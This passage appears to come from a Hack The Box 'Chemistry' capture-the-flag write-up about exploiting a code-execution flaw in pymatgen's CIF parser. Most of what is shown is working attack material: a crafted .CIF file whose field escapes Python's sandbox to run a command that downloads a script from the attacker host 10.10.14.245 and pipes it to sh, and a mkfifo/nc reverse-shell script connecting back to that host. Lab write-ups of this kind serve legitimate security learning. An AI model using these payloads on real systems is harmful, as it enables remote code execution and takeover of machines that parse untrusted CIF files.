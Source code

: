 ![](/assets/blogimages/Writeups/Hackthebox/Chemistry/Chemistry1.png)

Searching online for `.CIF` exploits I find this:
[https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

Using this information, I crafted a malicious `.CIF` file (`vuln.cif`) that executes a reverse shell:
```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("curl http://10.10.14.245/shell.sh | sh");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

The reverse shell script:
```
#!/usr/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.245 1234 >/tmp/f
```
